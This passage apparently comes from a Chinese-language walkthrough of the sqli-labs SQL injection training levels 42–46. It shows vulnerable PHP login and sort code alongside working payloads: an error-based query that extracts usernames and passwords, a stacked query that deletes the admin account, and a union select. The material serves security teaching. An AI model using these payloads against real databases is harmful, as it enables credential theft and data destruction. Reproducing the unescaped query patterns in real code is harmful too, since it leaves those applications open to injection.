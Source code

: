 或者报错注入

1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT(SELECT CONCAT(CAST(CONCAT(username,password) AS CHAR),0x7e)) FROM users LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)#

![image-20201112152217818](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112152217818.png)

## 0X2FLess-43

本关与42关的原理基本一致，我们还是定位在login.php中的password。关键代码：

```
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
$password = $_POST["login_password"];
$sql = "SELECT * FROM users WHERE username=('$username') and password=('$password')";
```

多了）闭合

![image-20201112150858397](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112150858397.png)

![image-20201112150155124](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112150155124.png)

payload

');delete from users where username="admin";#

![image-20201112150406365](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112150406365.png)

## 0X30Less-44

相比前两关没有报错信息，

login_password=0' union select 1,database(),3;#

或采用Less-42相同payload

![image-20201112151028687](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112151028687.png)



## 0X31Less-45

同43,但无报错信息，无法使用报错注入，其余利用手法相同

## 0X32Less-46

```php
# GET 方式获取 sort 参数
$id=$_GET['sort'];

# 直接将 id 带入 SQL 中
$sql = "SELECT * FROM users ORDER BY $id";

if 查询成功：
    输出查询信息
else：
    print_r(mysql_error());
```
